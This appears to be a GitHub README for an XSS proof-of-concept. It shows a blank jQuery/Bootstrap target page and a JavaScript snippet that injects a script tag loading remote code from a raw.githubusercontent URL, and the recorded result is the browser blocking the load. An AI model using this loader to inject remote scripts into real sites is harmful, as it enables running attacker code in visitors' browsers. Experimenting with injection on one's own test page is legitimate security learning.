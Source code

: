 # xss-injection-test

This project is a prof-og-concept of dynamic Javascript libraries injection for different browsers.

The target page must hace JQuery libraries activated

## Target paget
We will use an empty HTML page to host our injection

```html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <title>Host Site</title>
  <script src="https://code.jquery.com/jquery-3.6.0.js" integrity="sha256-H+K7U5CnXl1h5ywQfKtSj8PCmoN9aaq30gDh27Xc0jk="
    crossorigin="anonymous"></script>
  <script src="https://code.jquery.com/ui/1.13.1/jquery-ui.js"
    integrity="sha256-6XMVI0zB8cRzfZjqKcD01PBsAy3FlDASrlC8SxCpInY=" crossorigin="anonymous"></script>
  <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css"
    integrity="sha384-1BmE4kWBq78iYhFldvKuhfTAU6auU8tT94WrHftjDbrCEXSU1oBoqyl2QvZ6jIW3" crossorigin="anonymous">
  <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.min.js"
    integrity="sha384-QJHtvGhmr9XOIpI6YVutG+2QOK9T+ZnN4kzFN1RtK3zEFEIsxhlmWl5/YESvpZ13"
    crossorigin="anonymous"></script>
</head>

<body>
  <div class="container">
    <h1>Target page</h1>
    <h2>Simple page with jqeury and bootstrap activated</h2>
  </div>
</body>
</html>

## Code to inject
The golar is to inject the code of this file on the page:
```
https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js
```

# First try (Brave)

```javascript
function inject() {
    var script = document.createElement("script");
    script.type = "text/javascript";
    script.src = "https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js";
    document.head.appendChild(script);
}
inject()
```

Result:
<span style="color: red">
  VM304:6 Cross-Origin Read Blocking (CORB) blocked cross-origin response https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js with MIME type text/plain. See https://www.chromestatus.com/feature/5629709824032768 for more details.
  </span>

